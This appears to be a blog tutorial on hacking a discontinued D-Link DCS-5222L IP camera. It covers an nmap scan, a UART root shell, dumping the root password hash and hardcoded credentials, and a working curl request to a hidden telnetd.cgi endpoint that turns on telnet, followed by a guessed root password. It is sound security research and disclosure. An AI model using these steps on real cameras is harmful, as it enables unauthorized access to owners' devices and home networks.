



# Hacking D-Link's DCS-5222L IP camera
As the US considers a potential ban on TP-Link, many people might find themselves needing to replace their routers, IP cameras, or NAS devices. In the event of such a ban, consumers are likely to rush into purchasing devices from competitors like D-Link or Asus, even if their current devices remain unaffected. To those considering this switch, I advise: don’t rush. Choose your new devices carefully, because, as we’ll explore today, products from these brands may still have vulnerabilities that attackers can exploit to gain remote code execution.

This post serves as an introduction to the art of hardware and embedded systems hacking. We’ll examine how an IP camera can be hacked, covering everything from hardware to firmware. Along the way, we’ll delve into key concepts such as hardware and embedded systems hacking, UART interfaces, enumeration, and backdoors.

## D-Link DCS-5222L
The DCS product line features IP security cameras that almost anyone can install at home with minimal effort or technical knowledge. These cameras are often an attractive solution for home networks because they’re both more affordable and easier to set up than traditional CCTV systems.

However, the downside is that these devices may be exploitable. In the worst-case scenario, an attacker could gain full access to your network or recruit the device into a botnet.

For this demonstration, I’m using the D-Link DCS-5222L IP camera. This legacy device, released in 2010, had its support officially discontinued by D-Link in 2019. It’s important to note the exact hardware model and firmware version being tested.

<div align=center>
    
</div>

In my case, the camera is hardware model A1 with firmware version 1.11. Keep in mind that newer versions may introduce additional caveats, such as a login prompt or missing files. The hardware model can be found on the label at the bottom of the camera, while other details—such as firmware features—can be identified through the web interface, boot logs, documentation, or binaries within the device's system.

<div align=center>
    
</div>

The first step I took was installing the camera without any additional configuration.
## Device services and exposed ports
Now let’s dive into the hacking process. First, we’ll start by scanning the device using **nmap**:
```bash
$ nmap <ipv4> -A -n -sV
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-12-27 19:34 -03
Nmap scan report for 192.168.1.23
Host is up (0.016s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
80/tcp    open  http       lighttpd (D-Link DCS IP camera)
|_http-server-header: dcs-lig-httpd
|_http-title: Checking Language...
443/tcp   open  ssl/https?
|_ssl-date: 2013-01-01T12:10:46+00:00; -11y361d10h26m30s from scanner time.
| ssl-cert: Subject: commonName=www.dlink.com/organizationName=D-Link Corporation/stateOrProvinceName=Asia/countryName=TW
| Not valid before: 2013-01-01T12:00:33
|_Not valid after:  2022-12-30T12:00:33
554/tcp   open  rtsp?
|_rtsp-methods: OPTIONS, DESCRIBE, SETUP, TEARDOWN, PLAY, SET_PARAMETER
49152/tcp open  upnp       Portable SDK for UPnP devices 1.6.18 (Linux 2.6.28; UPnP 1.0)
49153/tcp open  upnp       Portable SDK for UPnP devices 1.6.18 (Linux 2.6.28; UPnP 1.0)
Service Info: OS: Linux; Device: webcam; CPE: cpe:/o:linux:linux_kernel:2.6.28

Host script results:
|_clock-skew: -4378d10h26m30s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 172.87 seconds
```

From the scan results, we can see the device has five exposed services:

1. An HTTP web portal.
2. An HTTPS web portal with an expired SSL certificate (rendering it non-functional).
3. An RTSP service for video streaming.
4. Two UPnP (Universal Plug and Play) services.

We’ll focus on the HTTP web portal for now. The server appears to be based on **lighttpd**, a detail we can later confirm during the analysis.
### HTTP web portal
First, let’s explore the web portal. Upon accessing it, we are immediately prompted to enter credentials.

<div align=center>
    
</div>

Since I hadn’t configured the device, we can use the default credentials:
```
# Default credentials
username = "admin"
password = ""
```
Using these, we gain access to the portal. This is where the vulnerability becomes apparent. This type of exploit is known as an **Authenticated Attack**, which is very common in embedded devices such as routers and IP cameras.

<div align=center>
    
</div>

Additionally, we can see the firmware version (1.11) displayed in the top-right corner of the interface.
## Firmware Analysis
To determine how to attack the web portal, we’ll have better chances if we first analyze parts of the firmware. There are three main approaches for this:

1. Finding the firmware online.
2. Dumping the firmware directly from the device.
3. Logging into the device and reading the source from within.

For this demonstration, we’ll focus on the third option: reading the firmware from inside the device.
### UART interface
Finally, we can work directly with the hardware. Most embedded devices include an interface that allows communication with the hardware, but the challenge is identifying where this interface is located. Sometimes, specialized probes are needed to connect directly to the SoC’s pins. However, back when this camera was released, it was common for manufacturers to leave these interfaces exposed, particularly the **UART interface** (Universal Asynchronous Receiver-Transmitter).

Connecting to the UART interface allows us to access system logs and even opens a shell over a TTY terminal, which can be incredibly useful. In this case, my firmware version provides a root shell, granting full access to the device’s system.
#### Finding the UART pins
The first step is locating the UART port or pins on the device. After disassembling the bottom of the camera, I quickly found the port. While it wasn’t explicitly labeled as UART, the pins were marked with standard labels:

- **G** = Ground (GND)
- **R** = Receive (RX)
- **T** = Transmit (TX)
- **V** = Voltage (VCC)

<div align=center>
    
</div>

To translate UART protocol to USB protocol, I used an **FT232 USB-UART interface**.
#### Voltage considerations
It’s critical to determine whether the device operates at 3.3V or 5V, as using the wrong voltage can damage the device or even your computer. Using a multimeter, I confirmed that the device operates at 3.3V. This was evident because the voltage between the ground and TX pins fluctuated but never exceeded approximately 3.3V, indicating active data transmission.


<div align=center>
    
    
</div>


#### Connecting to the UART
I didn’t have the specific UART connector for the port, but I improvised by using another connector and a Dupont cable to establish the connection.


<div align=center>
    
</div>

Once the cables and USB interface were connected, I used tools like `screen`, `picocom`, or `puTTY` to read the data stream. Typically, UART interfaces communicate at **115200 baud**, but this device operates at a slower rate of **38400 baud**.
```bash
$ sudo screen /dev/ttyUSB0 38400
```
#### Analyzing the logs
Upon connection, the logs began streaming:
```
�MP SPI-NOR Bootstrap v0.2.1
Boot image offset: 0x6000. Booting Image .....
0567Will set the following freq...
PLL1: 800 MHz, PLL2: 540 MHz, CPU freq: 540 MHz, AHB freq: 270 MHz, DDR freq: 800 MHz
go...

*********************************************
Please input Space to run Linux
Please input ESC to run UBOOT
Please input . to run burn-in
Please push factoryReset Button for rescue mode from SD card while the starting of bootup
Otherwise, system will run Linux after 1 sec
*********************************************
Load image from SPI-NOR offset 0xd6000 to sdram 0x4000000
Jump 0x4000000
Uncompressing Linux........................................................................................................................................................................................................................................................................................................................................................................................................................................................... done, booting the kernel.
Linux version 2.6.28 (builder@builder-161) (gcc version 4.4.0 (Faraday C/C++ Compiler Release 20100325) ) #1 PREEMPT Tue Jun 25 02:07:47 MAGT 2013
CPU: FA626TE [66056261] revision 1 (ARMv5TE), cr=0000797f
CPU: VIPT aliasing data cache, VIPT aliasing instruction cache
Machine: Faraday GM8126
Warning: bad configuration page, trying to continue
Memory policy: ECC disabled, Data cache writeback
Built 1 zonelists in Zone order, mobility grouping on.  Total pages: 32512
Kernel command line: mem=128M console=uart,shift,2,io,0xF9830000,38400
Early serial console at I/O port 0xf9830000 (options '38400', shift 2)
console [uart0] enabled
PID hash table entries: 512 (order: 9, 2048 bytes)
IC: GM8128 MP
GM Clock: CPU = 540 MHz, AHBCLK = 270 MHz, PLL1CLK = 800 MHz, PLL2CLK = 540 MHz
console handover: boot [uart0] -> real [ttyS0]
Dentry cache hash table entries: 16384 (order: 4, 65536 bytes)
Inode-cache hash table entries: 8192 (order: 3, 32768 bytes)
Memory: 128MB = 128MB total
Memory: 115540KB available (3526K code, 272K data, 10384K init)
Calibrating delay loop... 534.52 BogoMIPS (lpj=267264)
Mount-cache hash table entries: 512
CPU: Testing write buffer coherency: ok
net_namespace: 636 bytes
Fmem: node 0 is online, alloc pages = 16384(active pages = 32768)
high_memory:0xc8000000, VM Start:0xc8800000, End:0xe0000000
NET: Registered protocol family 16
...
```
From the logs, I identified the device runs **Linux kernel version 2.6.28**, compiled with **GCC version 4.4.0**. After reading through the boot and kernel logs, a shell opened, revealing that the device uses **BusyBox v1.20.2**—a common operating system for embedded devices. BusyBox provides access to numerous useful binaries.


<div align=center>
    
</div>


At this point, we can start exploring binaries and other interesting parts of the system for further analysis.
### System enumeration
#### Environment variables
First of all, lets take a look into the environment variables:
```
# set
HOME='/'
IFS='
'
LOGNAME='root'
PATH='/bin:/sbin:/usr/bin:/usr/sbin'
PPID='2376'
PS1='# '
PS2='> '
PS4='+ '
PWD='/'
SHELL='/bin/sh'
USER='root'
_='PATH=/bin:/sbin:/usr/bin:/usr/sbin'
```
Here, we confirm the device is running as the `root` user, with `/` as both the home and working directory. The shell is a classic `sh`, and the binaries' path includes common directories: `/bin`, `/sbin`, `/usr/bin`, and `/usr/sbin`. Next, we investigate the binaries.
#### Exploring Available Binaries
Listing the binaries across directories reveals a trove of information:
```
# ls *bin usr/*bin
bin:
CheckModel         busybox            image_controller   pwd
CheckVersion       cat                ip                 quote
CheckWirelessCard  certificate        kill               reformime
GetFWVersion       check_dst          light              rm
GetTVOutFormat     chmod              ln                 run-parts
SensorCaps         cp                 login              sdfmt.sh
SetMACAddress      curl               ls                 sdmanage.sh
SetVolume          curl-config        makemime           sed
TestButton         date               mdb                send_cmd
TestFlash          dd                 mfgbox             setsystz
TestGPIO           ddPack             mixer              sh
TestIR             df                 mkdir              sleep
TestLAN            dmesg              mknod              sniff
TestLED            dnsdomainname      mount              tar
TestPIR            echo               mv                 tdb
TestRTC            factoryReset       netstat            touch
TestSD             flash_erase        openssl            umount
TestWireless       flash_eraseall     orderWD            urlDecode
addlog             formData           pibinfo            usleep
agent              gm_spi_write       pidof              vi
ash                grep               ping               xmlEncode
ated               gunzip             ping6              zcat
base64             gzip               pirCount
bplay              hostname           play_wav
brec               i2c_access         ps

sbin:
ActorKiller.sh          ifup                    portForwarder
ContShot                init                    portmap
Lecorder                insmod                  poweroff
Onvif_mcast             ip6tables               preMemConf.sh
Recording               iptables                pt_firmware
Ruler                   ir                      pt_privacy
Snapshot                iwconfig                pt_test
Videoclip               iwevent                 ptd
acd                     iwgetid                 pullEngine
admMail                 iwlist                  reboot
automount.sh            iwpriv                  rmmod
db_analysis             iwspy                   route
dbd                     klogd                   rtpd
ddnsUpdater             lighttpd                rtspd
devmem                  lighttpd_ssl            setGPIOPin9AsInPut
dibbler-client          lld2d                   setHwCustom
dido                    logd                    start_wps
discovery               logread                 subscriptionManager.sh
ethtool                 lsmod                   syslogd
fdisk                   mDNSResponder           tz_dst
finderd                 mdev                    udhcpc
halt                    mii-tool                udhcpc.sh
httplink.sh             mkdosfs                 vcd
hwclock                 myDlinkEvent            vconfig
ifconfig                notifyEngine            watchDog
ifdown                  ntpd                    wirelessDectd
ifplugd                 orthrus                 xtables-multi
ifrename                orthrusipv6             zcip

usr/bin:
BurnInTest.sh     expr              md5sum            setupAudio        uptime
[                 flock             mkfifo            tail              uudecode
[[                free              nfshost.sh        test              uuencode
basename          head              passwd            tftp              watchcgi.sh
cut               killall           printf            time              wc
du                logger            readAllFiles.sh   top               which
efuseBuff2PIB.sh  lsusb             runsv             unzip

usr/sbin:
brctl        poff         popmaildir   sendmail
ez-ipupdate  pon          pppd         telnetd
```
Among them, we spot the **`telnetd`** binary. This indicates the device supports `telnet`, a network protocol notorious for its lack of encryption. This is alarming, as `telnetd` effectively functions as a backdoor for accessing the device. The inclusion of such a service in production firmware —which maybe was intended only for development environments— is unacceptable. Manufacturers continuing to ship devices with these vulnerabilities is a significant security oversight.
#### User credentials
To facilitate remote access via `telnet`, we extract the root user's hashed password:

```
# cat /etc/passwd /etc/shadow
root:x:0:0:Linux User,,,:/:/bin/sh
root:$1$gmEGnzIX$bFqGa1xIsjGupHyfeHXWR/:20:0:99999:7:::
```
This hash can later be cracked using tools like **hashcat** to reveal the plaintext password. Although we won't need this.
#### System Configuration Files
Listing the `/etc` directory:
```
# ls /etc
RT2870STA.dat     group             mdev.conf         profile           shadow
TZ                hostname          network           protocols         wired.ico
ascii.bmp         hosts             nsswitch.conf     rc.d              wireless.ico
db                ifplugd           ntpd.conf         resolv.conf       zcip.script
ddns.conf         iftab             openssl           rtpd.conf         zcipQuery.script
dibbler           inittab           osd.tmp           rtspd.conf
extra_modules     lighttpd          passwd            rtxx.dat
fstab             lld2d.conf        ppp               services

# cat /etc/hosts
127.0.0.1       localhost

# cat /etc/rc.d/rc.local
#!/bin/sh

die() {
        echo $@
        exit 1
}

showUsage() {
        die "$0 {start|stop}"
}

action=$1
end=$2

[ "$end" = "" ] && [ "$action" != "" ] || showUsage

start() {
        #touch /tmp/group /tmp/passwd /tmp/shadow
        #echo 'root:x:0:' > /etc/group
        #echo 'root:x:0:0:Linux User,,,:/:/bin/sh' > /etc/passwd
        #echo 'root:$1$gmEGnzIX$bFqGa1xIsjGupHyfeHXWR/:20:0:99999:7:::' > /etc/shadow
        /bin/agent &

        # remove loaded drivers
        rm -rf /lib/modules/*
        #addlog System is booted up.
        BurnInEnable_byte=`tdb get BurnIn BurnInEnable_byte`
        [ "$BurnInEnable_byte" -eq "1" ] && BurnInTest.sh start &
        echo "rc.local start ok."
}

stop() {
        #addlog System is rebooting.
        echo "rc.local stop ok."
}

case $action in
        start)
                start
        ;;
        stop)
                stop
        ;;
        *)
                showUsage
        ;;
esac

exit 0
```
(Un)shockingly, the `rc.local` file contains hardcoded root credentials. This practice is indefensible in any context, let alone in a production device.
#### Configuration Database
Further inspection of `/etc/db` and `/tmp/db` yields:
```
# ls /etc/db
default.xml  server.pem
# ls /tmp/db
db.xml       default.xml  server.pem
# cat /tmp/db/db.xml
...
<_AdminUser type="3" content="admin" />
<AdminPasswd type="3" content="" />
...
```
Hey! The admin credentials! Guess if you forget it can search it here! (you indeed can). 
#### File System and Persistance
Lets look at the filesystems:
```
# mount
rootfs on / type rootfs (rw)
proc on /proc type proc (rw)
tmpfs on /tmp type tmpfs (rw,size=34816k)
mdev on /dev type tmpfs (rw,size=512k)
devpts on /dev/pts type devpts (rw,mode=600)
sysfs on /sys type sysfs (rw)
none on /proc/bus/usb type usbfs (rw)
/dev/mtdblock1 on /opt type cramfs (ro)

# df
Filesystem           1024-blocks    Used Available Use% Mounted on
tmpfs                    34816       224     34592   1% /tmp
mdev                       512         0       512   0% /dev
/dev/mtdblock1             412       412         0 100% /opt
```
So although the rootfs shows as read-write, it has no persistance, meaning any modifications you make to the system will no persist in between boots. Thats why we haven't just written a script for setting up the `telnetd` daemon.
### Network traffic
We can also try to discover unwanted network traffic. 
#### Routing Table
Lets look at the routing table
```
# netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
231.1.1.1       *               255.255.255.255 UH        0 0          0 lo
239.255.255.250 *               255.255.255.255 UH        0 0          0 ra0
192.168.1.0     *               255.255.255.0   U         0 0          0 ra0
default         192.168.1.1     0.0.0.0         UG        0 0          0 ra0
```
Here we learn that there exists IPv4s on ranges 192.168.0.0/16 and 231.1.1.0/24, that are common for homes and small offices private networks. We caught attention on the 239.255.255.250 address. Upon a quick search we find that this IP is reserved for the WS-Discovery service (Web Services Dynamic Discovery Protocol) that runs over port `3702/udp`. 
#### Active Connections
Now lets take a look to all connections
```
# netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:49152           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:49153           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:rtsp            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:https           0.0.0.0:*               LISTEN
tcp        0      0 localhost:http          localhost:39863         TIME_WAIT
tcp        0      0 localhost:http          localhost:39859         TIME_WAIT
tcp        0      0 localhost:http          localhost:39857         TIME_WAIT
tcp        0      0 localhost:http          localhost:39858         TIME_WAIT
tcp        0      0 localhost:http          localhost:39856         TIME_WAIT
tcp        0      0 localhost:http          localhost:39861         TIME_WAIT
tcp        0      0 localhost:http          localhost:39860         TIME_WAIT
tcp        0      0 localhost:http          localhost:39862         TIME_WAIT
tcp        0      0 localhost:http          localhost:39864         TIME_WAIT
tcp        0      0 :::49152                :::*                    LISTEN
tcp        0      0 :::49153                :::*                    LISTEN
tcp        0      0 :::rtsp                 :::*                    LISTEN
tcp        0      0 :::http                 :::*                    LISTEN
tcp        0      0 :::https                :::*                    LISTEN
udp        0      0 0.0.0.0:62976           0.0.0.0:*
udp        0      0 0.0.0.0:35849           0.0.0.0:*
udp        0      0 0.0.0.0:58386           0.0.0.0:*
udp        0      0 localhost:59156         0.0.0.0:*
udp        0      0 0.0.0.0:8888            0.0.0.0:*
udp        0      0 0.0.0.0:57679           0.0.0.0:*
udp        0      0 0.0.0.0:57301           0.0.0.0:*
udp        0      0 0.0.0.0:5978            0.0.0.0:*
udp        0      0 localhost:46688         0.0.0.0:*
udp        0      0 0.0.0.0:5353            0.0.0.0:*
udp        0      0 0.0.0.0:1900            0.0.0.0:*
udp        0      0 0.0.0.0:1900            0.0.0.0:*
udp        0      0 localhost:6900          0.0.0.0:*
udp        0      0 239.255.255.250:3702    0.0.0.0:*
udp        0      0 192.168.1.23:3702       0.0.0.0:*
udp        0      0 :::62976                :::*
udp        0      0 fe80::2a10:7bff:fe01:8880:dhcpv6-client :::*                      
udp        0      0 :::dhcpv6-client        :::*
udp        0      0 :::47542                :::*
udp        0      0 :::5353                 :::*
udp        0      0 :::5353                 :::*
udp        0      0 :::5353                 :::*
udp        0      0 :::1900                 :::*
udp        0      0 :::3702                 :::*
udp        0      0 :::3702                 :::*
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node Path
unix  2      [ ACC ]     STREAM     LISTENING       3700 /var/tmp/logd
unix  2      [ ACC ]     STREAM     LISTENING       3986 /var/tmp/ptd
unix  2      [ ACC ]     STREAM     LISTENING       2976 /var/tmp/watchdog
unix  2      [ ]         DGRAM                      4318 /tmp/domain_socket.tmp
```
Here, no suspicious connections seem to exist, which is good.
### Web portal source
Now lets dive into the web page source code and binaries
```
# ls /var/www/
HttpRtspd.cgi              dev/                       ocxVersion
InstallCamCliCtrl.msi      dev2/                      onvif/
NCSPluginInstallation.dmg  eng/                       play2/
ack.html                   error/                     pt/
audio/                     es/                        rtsp-bin/
av2/                       event2/                    tvaview.xsl
camclictrl.cab             fr/                        tvjview.xsl
cgi/                       fullScreen.html            users/
cgiMain.sh                 image/                     vaview.htm
chn/                       image2/                    video/
cht/                       index.html                 vjview.htm
common/                    infMain.sh                 volumes/
config/                    it/                        xmlFunctions.sh
de/                        m/                         xsl/

# ls /var/www/cgi
admin          cgihtmlbox     logout.cgi     mobileIndex    web_event.cgi
cgibox         liveView.cgi   mainFrame.cgi  ptdc.cgi

# ls /var/www/cgi/admin
adv_audio_detection.cgi       getSDFile.cgi
adv_audiovideo.cgi            go_sleep.cgi
adv_ddns.cgi                  import.cgi
adv_do.cgi                    index.cgi
adv_firewall.cgi              logout.cgi
adv_godev.cgi                 motWizard.cgi
adv_https.cgi                 mot_detect.cgi
adv_image.cgi                 netWizard.cgi
adv_lan.cgi                   pppoe_status.cgi
adv_privacy_mask.cgi          reboot.cgi
adv_record.cgi                recorder.cgi
adv_sdcard.cgi                reset.cgi
adv_snapshot.cgi              schedule_profile_manager.cgi
adv_snapshot_cont.cgi         siteSurvey.cgi
adv_videoclip.cgi             st_device.cgi
adv_wireless.cgi              st_log.cgi
adv_wizard.cgi                support_ack.cgi
alarm_out_action.cgi          support_adv.cgi
calibration.cgi               support_home.cgi
cam_control.cgi               support_men.cgi
cam_patrol_control.cgi        support_status.cgi
cert_create.cgi               support_tools.cgi
cert_create_request.cgi       telnetd.cgi
cert_property.cgi             test_ftp_status.cgi
cert_remove.cgi               test_mail_status.cgi
cert_request_info.cgi         tools_admin.cgi
cert_upload.cgi               tools_default.cgi
ddns_status.cgi               tools_firmware.cgi
export.cgi                    tools_system.cgi
export_log.cgi                update.cgi
factoryUpdate.cgi             web_log.cgi
forceUpdate.cgi               wireless_ate.cgi
```
Look at that! A file in the route `cgi/admin/telnetd.cgi` exists! There's no way they left a way for setting up the backdor via the web interface, this has to be on purpouse, or as I prefer to call it, a *backdoor-by-design*.
## Leveraging the backdoor
Although the file is in ELF format (executable and linkable format), so the data is binary, we can still try to read strings from it:
```
...
command
on
/usr/sbin/telnetd 1>/dev/null 2>/dev/null
telnetd is started successfully. Please use telnet to login console.
off
killall telnetd 1>/dev/null 2>/dev/null
telnetd is stopped successfully.
unknown command. Please specify 'on' or 'off'.
...
```
From this, we speculate that we have to pass a command to the request. Lets try with the url parameter `?command=on`

<div align=center>
    
</div>

Boom! Backdoored. Now we can do it from the terminal. Note the auth token. This is the truncated base64 (no padding) string `username:password`, in this case `admin:`
``` bash
$ curl "http://192.168.1.23/cgi/admin/telnetd.cgi?command=on" --header "Authorization: Basic YWRtatW46"
# ...<b>telnetd is started successfully. Please use telnet to login console.</b>...
```
#### Cracking the root password hash
Now lets try logging in
```
$ telnet 192.168.1.23
Trying 192.168.1.23...
Connected to 192.168.1.23.
Escape character is '^]'.

DCS-5222L login:
```
Here we get promted with login credentials. I literaly guessed the password on my third try. It was `root:admin`. So easy.
## Conclusion
This security audit of the D-Link DCS-5222L reveals a number of vulnerabilities that could be exploited to gain unauthorized access to the device. The default root credentials, the existence of a backdoor via the `telnetd.cgi` script , and the lack of a login promt via UART interface highlight a fundamental lack of security best practices.  Despite the lack of persistent changes across reboots, the device remains vulnerable to unauthorized access through the web interface and weak default credentials.
## Future work
Regardless what we did here, many things did not get resolved. In the future, a good idea may be to work with the latest firmware version and patching the firmware for a persistant telnet service, or worse, with an outbounding connection to a C2 (command and control) server.
## References
\[1\] https://book.hacktricks.xyz/network-services-pentesting/3702-udp-pentesting-ws-discovery

\[2\] https://www.developpez.net/forums/i1399981/systemes/reseaux/hardware/equipements/tuto-camera-dlink-dcs-5222l-recuperer-fichiers-carte-sd/

\[3\] http://newsoft-tech.blogspot.co.at/2010/09/d-link-dcs-2121-and-state-of-embedded.html